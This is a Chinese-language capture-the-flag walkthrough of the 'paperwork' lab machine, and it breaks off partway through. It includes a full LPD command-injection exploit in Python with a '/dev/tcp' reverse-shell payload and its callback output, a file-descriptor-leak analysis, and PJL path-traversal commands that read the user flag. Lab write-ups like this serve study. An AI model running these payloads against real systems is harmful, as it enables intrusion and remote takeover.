


## 初期枚举

这里写了一个脚本快点扫，省的自己敲了：

### 结果

```bash
❯ webscan paperwork.htb
 target: paperwork.htb
 report: ./reports/paperwork.htb

[1/8] Port Scanning [...]
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-11 23:24 -0400
Initiating SYN Stealth Scan at 23:24
Scanning paperwork.htb (10.129.7.169) [65535 ports]
Discovered open port 80/tcp on 10.129.7.169
Discovered open port 22/tcp on 10.129.7.169
Increasing send delay for 10.129.7.169 from 0 to 5 due to max_successful_tryno increase to 5
Increasing send delay for 10.129.7.169 from 5 to 10 due to max_successful_tryno increase to 6
Warning: 10.129.7.169 giving up on port because retransmission cap hit (6).
Discovered open port 1515/tcp on 10.129.7.169
Completed SYN Stealth Scan at 23:24, 38.00s elapsed (65535 total ports)
Nmap scan report for paperwork.htb (10.129.7.169)
Host is up (0.093s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1515/tcp open  ifor-protocol

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 38.07 seconds
           Raw packets sent: 75689 (3.330MB) | Rcvd: 75681 (3.027MB)
[+] Open ports: 22,80,1515

[2/8] Service Detection + Vuln Scripts [...]
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-11 23:24 -0400
Nmap scan report for paperwork.htb (10.129.7.169)
Host is up (0.10s latency).

PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http           nginx 1.28.0 (Ubuntu)
|_http-server-header: nginx/1.28.0 (Ubuntu)
|_http-title: Intranet | Document Archiving Service
1515/tcp open  ifor-protocol?
| fingerprint-strings:
|   TerminalServer, TerminalServerCookie:
|_    Archive_Printer is ready and printing.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1515-TCP:V=7.99%I=7%D=7/11%Time=6A530906%P=x86_64-pc-linux-gnu%r(Te
SF:rminalServerCookie,27,"Archive_Printer\x20is\x20ready\x20and\x20printin
SF:g\.\n")%r(TerminalServer,27,"Archive_Printer\x20is\x20ready\x20and\x20p
SF:rinting\.\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.39 seconds
[+] Service + vuln scan complete → nmap/detail.txt

[3/8] Web Reconnaissance → 1 web port(s): 80

  ── http://paperwork.htb:80 ──
  [*] Fingerprinting...
  http://paperwork.htb:80 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.28.0 (Ubuntu)], IP[10.129.7.169], Title[Intranet | Document Archiving Service], nginx[1.28.0]
  [*] API endpoint discovery...
[5] 51775
  [*] Crawling endpoints (katana)...
[6] 51776
  [*] Vhost enumeration...
[8] 51777
  [*] Vulnerability scanning (nuclei)...
[7] 51783
[5]    51775 done       ffuf -u "${url}/api/FUZZ" -w  -mc 200,301,302,403 -t 50 -s -noninteractive -o
[8]  - 51777 done       ffuf -u "$url" -H "Host: FUZZ.${target}" -w  -fc 400,404 -t 60 -s  -o  -of  2
[6]  - 51776 done       katana -u "$url" -d 3 -jc -kf all -ef png,jpg,gif,css,woff,woff2,ico,svg -rl

[http-missing-security-headers:content-security-policy] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:x-frame-options] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:x-content-type-options] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:strict-transport-security] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:permissions-policy] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:referrer-policy] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] http://paperwork.htb:80
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] http://paperwork.htb:80
[7]  + 51783 done       nuclei -u "$url" -t http/cves/ -t http/exposures/ -t http/misconfiguration/ -
[+] Web recon complete

[4/8] Subdomain Enumeration
[+] Subdomains found: 0 → web/subs_all.txt

[5/8] Technology Stack Summary
  http://paperwork.htb:80
    http://paperwork.htb:80 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.28.0 (Ubuntu)], IP[10.129.7.169], Title[Intranet | Document Archiving Service], nginx[1.28.0]

[6/8] Summary
  ✓ Time elapsed: 5m 34s
  ✓ Report directory: ./reports/paperwork.htb
  ✓ Open ports: 22,80,1515
  ⚠ Nuclei findings: 10
  ✓ Katana crawled URLs: 2

╔══════════════════════════════════════════════╗
║                  Scan Done!                  ║
╚══════════════════════════════════════════════╝
```

### 总结

- 开放了 `80` 和 `1515` 两个端口，看起来运行的是打印机服务。
- 无明显的漏洞
- 无子域
- 无敏感路径发现 `http://paperwork.htb:80/download/archive` 是唯一 katana 发现的路径

## Shell as lp

### Web 主页


可以看到有一个下载链接。

然后有一个队列的名字：`archive_intake`

### 获取文件

```bash
❯ wget http://paperwork.htb/download/archive
--2026-07-11 23:22:24--  http://paperwork.htb/download/archive
Resolving paperwork.htb (paperwork.htb)... 10.129.7.169
Connecting to paperwork.htb (paperwork.htb)|10.129.7.169|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1138 (1.1K) [application/zip]
Saving to: ‘archive’

archive                         100%[====================================================>]   1.11K  --.-KB/s    in 0s

2026-07-11 23:22:25 (391 MB/s) - ‘archive’ saved [1138/1138]

❯ file archive
archive: Zip archive data, made by v3.0 UNIX, extract using at least v2.0, last modified Mar 12 2026 09:09:28, uncompressed size 2820, method=deflate

❯ mv archive archive.zip

❯ unzip archive.zip
Archive:  archive.zip
  inflating: server.py
```

这里有一个 python 文件，严重怀疑是 1515 端口运行的服务。

### 分析 server.py

```py
import socket
import threading
import subprocess
import subprocess

VALID_QUEUE = os.environ.get("LPD_QUEUE")

class LpdHandler(threading.Thread):

    def __init__(self, sock, addr):
        super().__init__()
        self.sock = sock
        self.addr = addr
        self.id = f"[lpd-{addr[1]}]"

    def run(self):
        try:
            data = self.sock.recv(1024)
            if not data: return

            command = data[0]

            if command == 2:
                self.handle_print_job(data)
            elif command in (3, 4):
                self.sock.send(b"Archive_Printer is ready and printing.\n")

        except Exception as e:
            print(f"{self.id} Error: {e}")
        finally:
            self.sock.close()

    def handle_print_job(self, data):
        queue = data[1:].decode().strip()

        if queue not in VALID_QUEUE:
            print(f"{self.id} Rejected: Invalid queue '{queue}'")
            self.sock.send(b'\x01')
            return
        print(f"{self.id} Accepted job for queue: {queue}")
        while True:
            chunk = self.sock.recv(1024)
            if not chunk: break

            subcommand = chunk[0]
            self.sock.send(b'\x00')
                parts = chunk[1:].decode(errors='ignore').split()
                if not parts: continue

                size = int(parts[0])
                content = b""
                while len(content) < size:
                    content += self.sock.recv(size - len(content) + 1)

                decoded_content = content.decode(errors='ignore')

                job_name = "Unknown"
                for line in decoded_content.split('\n'):
                    line = line.strip()
                    if line.startswith('J'):
                        job_name = line[1:]
                        break

                print(f"{self.id} Executing archive for: {job_name}")
                subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)

                self.sock.send(b'\x00')
                self.sock.send(b'\x00')
                while self.sock.recv(4096):
                    pass
                break

class LpdServer:

    def __init__(self, ip='0.0.0.0', port=1515):
        self.server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.server.bind((ip, port))
        self.server.listen(100)
        print(f"[*] LPD Server listening on {port}")

    def run(self):
        while True:
            sock, addr = self.server.accept()
            LpdHandler(sock, addr).start()

if __name__ == "__main__":
    LpdServer(port=1515).run()
```

注意到这里有一个命令执行，很可能存在 RCE

```py
subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

但是这个文件似乎不太完整，因为明显的可以看到 `os` 库确实，另外还有一点错误的缩进。

python 解释器绝对接受不了这个缩进错误，所以我们得自己去猜测一下大概的内容。

详细分析现后现有内容的大致流程如下：



### Line Printer Daemon Protocol

另外我们可以看到 Web 上面告诉了我们这个协议使用的标准 `RFC 1179 LPD` 协议。

> [!NOTE]
> 你可以在[这里](/posts/protocol/ldp)找到有关这个协议的讨论，这是后续内容的基础。

### 实现思路

有了 `LPD` 的知识我们其实就可以发现，`server.py` 中前面的内容其实完美的符合 `LPD` 的 `handle_print_job` 的标准。

既然如此我们就可以根据 `RFC 1179` 的标准脑补出缺失的内容。

只要确保输入合法，就可以注入 `job_name` 实现 RCE

### 测试服务

先写一个测试脚本：

```py
import socket

TARGET = "10.129.7.169"

COMMAND_HANDLE_JOBS = b'\x02'
COMMAND_GET_STATUS = b'\x03'

print(f"[*] building connection with {TARGET}")

s = socket.socket()
s.connect((TARGET, 1515))

print(f"[+] connected")

print(f"[*] sending command: {COMMAND_GET_STATUS}")
s.send(COMMAND_GET_STATUS)

resp = s.recv(1024)
print(f'[*] command response: {resp}')

s.close()
```

可以看到确实是运行的这个脚本的服务：

```bash
❯ python3 exploit.py
[*] building connection with 10.129.7.169
[+] connected
[*] sending command: b'\x03'
[*] command response: b'Archive_Printer is ready and printing.\n'
```

### 编写脚本

我们大致可以按照下面的方式来注入我们的命令：



完整的 `exploit.py` 如下

```py
import socket
import struct
import argparse
import sys

COMMAND_HANDLE_JOBS = 0x02
COMMAND_GET_STATUS = 0x03
QUEUE_NAME = "archive_intake"


def parse_args():
    parser = argparse.ArgumentParser(
        description="LPD Exploit - Paperwork HTB"
    )

    parser.add_argument(
        "-t", "--target",
        required=True,
        help="Target IP address"
    )

    parser.add_argument(
        "-p", "--port",
        type=int,
        default=1515,
        help="Target port"
    )

    parser.add_argument(
        "-c", "--command",
        type=str,
        default="id",
        help="Command / payload string (default: id)"
    )

    parser.add_argument(
        "-r", "--reverse",
        type=str,
        default=None,
        metavar="IP:PORT",
        help="Reverse shell: -r 10.10.14.x:4444 (overrides -c)"
    )

    return parser.parse_args()


def recv_until(s, size=1, timeout=5):
    """确保收到指定字节数"""
    s.settimeout(timeout)
    data = b""
    while len(data) < size:
        try:
            chunk = s.recv(size - len(data))
            if not chunk:
                break
            data += chunk
        except socket.timeout:
            break
    return data


def send_print_job(s, queue_name):
    """Step 1: Send the print job command with queue name"""
    payload = struct.pack("!B", COMMAND_HANDLE_JOBS)  # 0x02
    payload += queue_name.encode()
    print(f"[*] Sending job command: queue='{queue_name}'")
    s.send(payload)

    resp = recv_until(s)
    if resp != b'\x00':
        print(f"[-] Queue rejected. Response: {resp}")
        return False
    print("[+] Queue accepted")
    return True


def send_control_file(s, command):
    """
    Step 2: Send control file with command injection in J line.
    The control file format per RFC 1179:
    - Subcommand 0x02 = receive control file
    - Followed by size + content
    """
    # 构造控制文件内容
    # 利用单引号闭合 echo 命令的上下文
    # 原命令: echo 'Archive: {job_name}' >> /tmp/archive.log
    # 注入后: echo 'Archive: ';COMMAND;'' >> /tmp/archive.log

    # 方式1: 直接命令执行
    injected_job = f"';{command};'"

    # 标准控制文件格式: H=hostname, J=jobname
    control_data = f"Hattacker\nJ{injected_job}\n".encode()
    control_size = len(control_data)

    # Subcommand 0x02 = receive control file
    subcmd = struct.pack("!B", 0x02)
    # 格式: [subcmd][size空格job_name]
    size_str = str(control_size).encode()

    header = subcmd + size_str + b' attacker'
    print(f"[*] Sending control file header: {header}")
    s.send(header)

    resp = recv_until(s)
    if resp != b'\x00':
        print(f"[-] Control file header rejected: {resp}")
        return False
    print("[+] Control file header accepted")

    # 发送控制文件内容
    print(f"[*] Sending control file: {control_data}")
    s.send(control_data)

    # 读取两个 \x00 确认
    resp = recv_until(s, size=2)
    print(f"[*] Control file response: {resp}")

    if resp != b'\x00\x00':
        print(f"[-] Control file not fully acknowledged: {resp}")
        return False
    print("[+] Control file accepted")

    return True


def send_data_file(s):
    """Step 3: Send a dummy data file (required by protocol to complete the job)"""
    dummy_content = b"dummy data for archival processing\n"
    subcmd = struct.pack("!B", 0x03)  # 0x03 = receive data file
    size_str = str(len(dummy_content)).encode()

    header = subcmd + size_str + b' dummy'
    print(f"[*] Sending data file header: {header}")
    s.send(header)

    resp = recv_until(s)
    if resp != b'\x00':
        print(f"[-] Data file header rejected: {resp}")
        return False

    s.send(dummy_content)

    # 读取两个 \x00 确认
    resp = recv_until(s, size=2)
    print(f"[*] Data file response: {resp}")

    # 发送结束标志
    try:
        s.send(b'\x00')
    except:
        pass

    return True


def main():
    args = parse_args()

    # 构造最终执行的命令
    if args.reverse:
        ip, port = args.reverse.split(":")
        command = f"bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'"
        print(f"[*] Reverse shell mode: {ip}:{port}")
    else:
        command = args.command
        print(f"[*] Command mode: {command}")

    print(f"[*] Connecting to {args.target}:{args.port}")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.settimeout(10)
    try:
        s.connect((args.target, args.port))
    except Exception as e:
        print(f"[-] Connection failed: {e}")
        sys.exit(1)
    print("[+] Connected")

    if not send_print_job(s, QUEUE_NAME):
        s.close()
        sys.exit(1)

    if not send_control_file(s, command):
        s.close()
        sys.exit(1)

    print("[*] Sending dummy data file...")
    send_data_file(s)

    # 尝试接收任何剩余数据
    try:
        remaining = recv_until(s, size=1024)
        if remaining:
            print(f"[*] Remaining data: {remaining}")
    except:
        pass

    s.close()
    print("[+] Exploit completed")


if __name__ == "__main__":
    main()
```

```bash
❯ python3 exploit.py -t $target -p 1515 -r 10.10.17.28:4000
[*] Reverse shell mode: 10.10.17.28:4000
[*] Connecting to 10.129.7.169:1515
[+] Connected
[*] Sending job command: queue='archive_intake'
[+] Queue accepted
[*] Sending control file header: b'\x0267 attacker'
[+] Control file header accepted
[*] Sending control file: b"Hattacker\nJ';bash -c 'bash -i >& /dev/tcp/10.10.17.28/4000 0>&1';'\n"
[*] Control file response: b'\x00'
[-] Control file not fully acknowledged: b'\x00'
```

有点瑕疵，但是结果是好的：

```bash
❯ penelope -p 4000
[+] Listening for reverse shells on 0.0.0.0:4000 -> 127.0.0.1 • 192.168.183.128 • 10.10.17.28
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => paperwork 10.129.7.169 Linux-x86_64 👤 lp(7) 😍️ Session ID <1>
[+] Upgrading shell to PTY...
[+] PTY upgrade successful via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/halfcity/.penelope/sessions/paperwork~10.129.7.169-Linux-x86_64/2026_07_12-01_39_24-707-lp(7).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
lp@paperwork:/opt/LPDServer$ ls
server.py
```

## Shell as archivist (User Flag)

### 探索

在这里我们可以找到真正运行的 `server.py` 。

文件中的内容刚好应证了我们的猜想：

```py
while True:
    chunk = self.sock.recv(1024)
    if not chunk: break

    subcommand = chunk[0]
    self.sock.send(b'\x00')

    if subcommand == 2: # Control File
        parts = chunk[1:].decode(errors='ignore').split()
        if not parts: continue

        size = int(parts[0])
        content = b""
        while len(content) < size:
            content += self.sock.recv(size - len(content) + 1)

        decoded_content = content.decode(errors='ignore')

        job_name = "Unknown"
        for line in decoded_content.split('\n'):
            line = line.strip()
            if line.startswith('J'):
                job_name = line[1:]
                break

        print(f"{self.id} Executing archive for: {job_name}")
        subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)

        self.sock.send(b'\x00')

    elif subcommand == 3: # Data File
        self.sock.send(b'\x00')
        while self.sock.recv(4096):
            pass
        break
```

### linpeas

#### process

```bash
archivi+     984  0.0  0.4  28040 17668 ?        Ss   01:57   0:00 /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ /home/archivist/printer/logs/commands.log
root        1489  0.0  0.4  28432 17948 ?        Ss   01:57   0:00 /usr/bin/python3 /usr/bin/paperwork-daemon
```

#### port

```bash
══╣ Local-only listeners (loopback) (T1049)
udp   UNCONN 0      0          127.0.0.1:323       0.0.0.0:*
tcp   LISTEN 0      128        127.0.0.1:1337      0.0.0.0:*
tcp   LISTEN 0      100        127.0.0.1:9100      0.0.0.0:*
```

### paperwork-daemon

有一个叫 `paperwork-daemon` 的文件：

```py
#!/usr/bin/python3
import socket, os, array, hashlib
import zipfile
import shutil

try:
    admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
except Exception:
    os._exit(1)

LOG_PATH = "/home/archivist/printer/logs/commands.log"

def get_admin_secret():
    data = os.pread(admin_fd, 1024, 0).decode().strip()
    if "ADMIN_PASSWORD=" in data:
        return data.split("ADMIN_PASSWORD=")[1].split("\n")[0]
    return data

def scan_for_malice():
    if not os.path.exists(LOG_PATH):
        return False
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
    return False

def trigger_lockdown(conn):
    try:
        log_fd = os.open(LOG_PATH, os.O_RDONLY)
        evidence_bundle = array.array("i", [log_fd, admin_fd])
        msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
        conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])

        zip_path = "/root/quarantine/evidence.zip"
        with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
            zipf.write(LOG_PATH, arcname="commands.log")


        with open(LOG_PATH, 'w') as f:
            f.truncate(0)

        os.close(log_fd)
    except:
        pass

def main():
    socket_path = "/run/paperwork/mgmt.sock"
    if os.path.exists(socket_path): os.remove(socket_path)
    if not os.path.exists("/run/paperwork"): os.makedirs("/run/paperwork")

    s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
    s.bind(socket_path)
    os.chmod(socket_path, 0o660)
    os.chown(socket_path, 0, 1000)
    s.listen(5)

    while True:
        conn, _ = s.accept()

        if scan_for_malice():
            trigger_lockdown(conn)
        else:
            secret = get_admin_secret()
            token = hashlib.sha256(f"SYSTEM_CLEAN:{secret}".encode()).hexdigest()
            conn.sendall(f"STATUS: SYSTEM_CLEAN\nSIGNATURE: {token}\n".encode())

        conn.close()

if __name__ == "__main__":
    main()
```

我们来分析一下 `paperwork-daemon` 以 root 身份启动时，`os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)` 打开了管理员密码文件，拿到一个文件描述符 `admin_fd`。

从此以后就一直攥在自己手里不释放。

`scan_for_malice()` 会去读 `commands.log`，检查里面有没有出现过 `FSQUERY/FSUPLOAD/FSDOWNLOAD` 这几个关键词。

其中 `trigger_lockdown()` 触发后，会通过 Unix Domain Socket 的 `sendmsg() + SCM_RIGHTS` 辅助数据，把 `log_fd` 和 `admin_fd` 这两个已经打开的文件描述符直接传给连过来的客户端连接！

这是个巨大的漏洞：SCM_RIGHTS 传递的是内核层面的文件描述符本身，不是文件内容或路径。

#### SCM_RIGHTS

> `SCM_RIGHTS` 是 Unix Domain Socket 上的一种"辅助数据"（ancillary data / control message）类型，专门用来在两个不同进程之间传递打开的文件描述符。
> 
> 它只能通过 AF_UNIX 类型的 socket 传输（不能跨网络，因为 fd 是本机内核的资源，网络另一端的机器压根没有这个资源的概念），`依赖 sendmsg()`/`recvmsg()` 这一对系统调用，而不是普通的 `send()`/`recv()`
>
> `SCM_RIGHTS` 设计的目的是让一个高权限的"特权进程"负责用 root 打开某些受限资源（比如绑定 80/443 端口、打开设备文件、读特定配置），然后把打开好的 fd 传给一个低权限的"工作进程"去实际处理数据。这样工作进程永远不需要 root 权限，即使它被攻破了，攻击者拿到的也只是一个已经打开的 fd，而不是任意读写整个文件系统的能力。

也就是说，就目前的情况，只要能连上 `/run/paperwork/mgmt.sock` 这个管理套接字，触发它进入 `Lock` 分支，我们收到的那个 fd 在我们自己的进程里同样可以直接 read/pread。

这样就完全绕过了 Linux 的文件权限检查机制。

因为权限检查只在 `open()` 那一刻发生，fd 一旦被传递，接收方直接用就行，内核不会再校验你本来有没有权限打开这个文件。

我们赶紧来检查一下这个套接字的权限：

```bash
lp@paperwork:/tmp$ ls -la /run/paperwork/mgmt.sock
srw-rw---- 1 root archivist 0 Jul 12 01:57 /run/paperwork/mgmt.sock
```

好吧看起来我们还是需要再隐忍一下。

所以接下来的目标就是获取用户 `archivist` 的 shell 。

### JetDirect

结合进程和端口的内容基本可以肯定本地的 `9100` 端口这是一个由用户 `archivist` 运行的 `JetDirect` 服务。

这里值得重点关注。

#### 简介

> Rou druk is wat ons definieer as die proses om ’n verbinding met port 9100/tcp van ’n netwerkdrukker te maak. Dit is die standaardmetode wat deur CUPS en die Windows printing architecture gebruik word om met netwerkdrukkers te kommunikeer, aangesien dit beskou word as ‘die eenvoudigste, vinnigste, en oor die algemeen die mees betroubare netwerkprotokol wat vir drukkers gebruik word’. Rou port 9100-druk, ook verwys as JetDirect, AppSocket of PDL-datastream, is eintlik nie ’n drukprotokol op sigself nie. In plaas daarvan word alle gestuurde data direk deur die druktoestel verwerk, net soos ’n parallelle verbinding oor TCP. In teenstelling met LPD, IPP en SMB, kan dit direkte terugvoer aan die kliënt stuur, insluitend status- en foutboodskappe. So ’n tweerigtingkanaal gee ons direkte toegang tot resultate van PJL, PostScript of PCL opdragte. Daarom word rou port 9100-druk – wat deur byna enige netwerkdrukker ondersteun word – gebruik as die kanaal vir sekuriteitsanalise met PRET en PFT. [1]

### JetDirect 利用

我将使用这个工具来与打印机通信：

::github{repo=RUB-NDS/PRET}

还是先将端口转发到本地，然后连接：

```bash
❯ pret 127.0.0.1 pjl
/home/halfcity/kit/printer/PRET/pret.py:55: SyntaxWarning: invalid escape sequence '\|'
  print("  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       ")
      ________________
    _/_______________/|
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de>
  |           |   ô| ||
  |___________|   ô| ||
  | ||/.´---.||    | ||      「 pentesting tool that made
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」
  |_||=L==H==||_|__|/

     (ASCII art by
     Jan Foerster)

Connection to 127.0.0.1 established
Device:   OK
HP LASERJET 4ML

Welcome to the pret shell. Type help or ? to list commands.
127.0.0.1:/>
```

```bash
127.0.0.1:/> ls
-     5119   jetdirect.py
127.0.0.1:/> debug on
127.0.0.1:/> site @PJL FSUPLOAD NAME="0:/jetdirect.py" OFFSET=0 SIZE=5119
```

这里可以读取到之前发现的 `jetdirect.py` 文件：

```py
#!/usr/bin/env python3

import os
import sys
import socket
import logging
import re
import hashlib

class PJLServer:
    def __init__(self):
        self._server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self._server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def listen(self, port=9100, backlog=100):
        self._server.bind(("127.0.0.1", port))
        self._server.listen(backlog)
        logging.info("Listening on port %d" % port)

    def accept(self):
        client, addr = self._server.accept()
        logging.info("[%s] connected" % addr[0])
        return PJLClient(client, addr[0])

class PJLClient:
    def __init__(self, client, address):
        self._client = client
        self._address = address

    def get_line(self):
        """Reads until a newline to get a single PJL command."""
        line = b""
        while True:
            char = self._client.recv(1)
            if not char: return None
            line += char
            if char == b"\n": break
        return line

    def reply(self, message):
        if isinstance(message, str):
            message = message.encode("utf-8")
        self._client.sendall(message)

    def close(self):
        self._client.close()

class Filesystem:
    def __init__(self, root_dir):
        self._root = os.path.abspath(root_dir)

    def _translate(self, path):
        clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
        return os.path.normpath(os.path.join(self._root, clean))

    def listdir(self, name=""):
        target = self._translate(name)
        if not os.path.exists(target): return "FILEERROR=1"
        try:
            items = os.listdir(target)
            res = [". TYPE=DIR", ".. TYPE=DIR"]
            for i in items:
                p = os.path.join(target, i)
                res.append(f"{i} TYPE={'DIR' if os.path.isdir(p) else 'FILE'} SIZE={os.path.getsize(p)}")
            return "\n".join(res)
        except: return "FILEERROR=1"

    def read(self, path):
        target = self._translate(path)
        if os.path.isfile(target):
            with open(target, "rb") as f: return f.read()
        return None

    def write(self, path, data):
        target = self._translate(path)
        try:
            os.makedirs(os.path.dirname(target), exist_ok=True)
            with open(target, "wb") as f: f.write(data)
            return "OK"
        except: return "FILEERROR=1"

fs = None

def handle_download(command, client):
    m = re.search(r'NAME\s*=\s*"([^"]+)"\s*SIZE\s*=\s*(\d+)', command, re.I)
    if not m: return "FILEERROR=1"
    path, size = m.group(1), int(m.group(2))

    logging.info(f"Receiving file: {path} ({size} bytes)")
    data = b""
    while len(data) < size:
        chunk = client._client.recv(min(size - len(data), 4096))
        if not chunk: break
        data += chunk
    return fs.write(path, data)

def handle_upload(command):
    m = re.search(r'NAME\s*=\s*"([^"]+)"', command, re.I)
    if not m: return "FILEERROR=1"
    path = m.group(1)
    data = fs.read(path)
    if data is None: return "FILEERROR=1"
    header = f'@PJL FSUPLOAD NAME="{path}" SIZE={len(data)}\n'.encode("utf-8")
    return header + data

if __name__ == "__main__":
    if len(sys.argv) < 3:
        print(f"Usage: {sys.argv[0]} <PORT> <ROOT_DIR>")
        sys.exit(1)

    fs = Filesystem(sys.argv[2])
    LOG_FILE = "/home/archivist/printer/logs/commands.log"
    logging.basicConfig(
        level=logging.INFO,
        format="%(message)s",
        handlers=[
            logging.FileHandler(LOG_FILE),
            logging.StreamHandler(sys.stdout)
        ]
    )
    server = PJLServer()
    server.listen(int(sys.argv[1]))

    while True:
        client = server.accept()
        while True:
            line_bytes = client.get_line()
            if not line_bytes: break

            # Filter protocol noise
            if b"@" not in line_bytes: continue
            line = line_bytes[line_bytes.find(b"@"):].decode("utf-8", errors="ignore").strip()

            if not line.startswith("@PJL"): continue
            logging.info(f"Command: {line}")

            if "FSDOWNLOAD" in line.upper():
                res = handle_download(line, client)
                client.reply(res + "\r\n")
            elif "FSUPLOAD" in line.upper():
                res = handle_upload(line)
                client.reply(res)
            elif "FSDIRLIST" in line.upper() or "FSQUERY" in line.upper():
                m = re.search(r'NAME\s*=\s*"([^"]+)"', line, re.I)
                res = fs.listdir(m.group(1) if m else "0:/")
                client.reply(res + "\r\n")
            elif "INFO ID" in line.upper():
                client.reply("HP LASERJET 4ML\r\n")
            elif "INFO FILESYS" in line.upper():
                client.reply("VOLUME TOTAL SIZE FREE SPACE LOCATION LABEL STATUS\n0:     1755136    1718272    <HT>     <HT>  READ-WRITE\r\n")
            elif "ECHO" in line.upper():
                client.reply(line + "\r\n")
            else:
                client.reply("OK\r\n")
        client.close()
```

在这里存在目录穿越的漏洞：

```py
def _translate(self, path):
        clean = path.replace("0:", "").replace("\\", "/").lstrip("/")
        return os.path.normpath(os.path.join(self._root, clean))

    def listdir(self, name=""):
        target = self._translate(name)
        if not os.path.exists(target): return "FILEERROR=1"
        try:
            items = os.listdir(target)
            res = [". TYPE=DIR", ".. TYPE=DIR"]
            for i in items:
                p = os.path.join(target, i)
                res.append(f"{i} TYPE={'DIR' if os.path.isdir(p) else 'FILE'} SIZE={os.path.getsize(p)}")
            return "\n".join(res)
        except: return "FILEERROR=1"
```

尝试利用：

```bash
127.0.0.1:/> site @PJL FSUPLOAD NAME="0:/../../../../home/archivist/user.txt"
@PJL FSUPLOAD NAME="0:/../../../../home/archivist/user.txt" SIZE=33
8e8852a4152c7d3f9ace112eb897f07a
```

这里本来想通过 `PRET` 尝试上传 `authorized_keys` 到 archivist 的 .ssh 下。

但是不知道是不是 PRET 过于古老，他似乎不太兼容现代的 python，导致有许多奇怪的bug，同时它给出的描述也不清晰。

### 手动利用

这是一个直接利用 PJL 的脚本，他会上传一个文件，也就是实现 `put` 命令做的事：

```py
import socket, base64

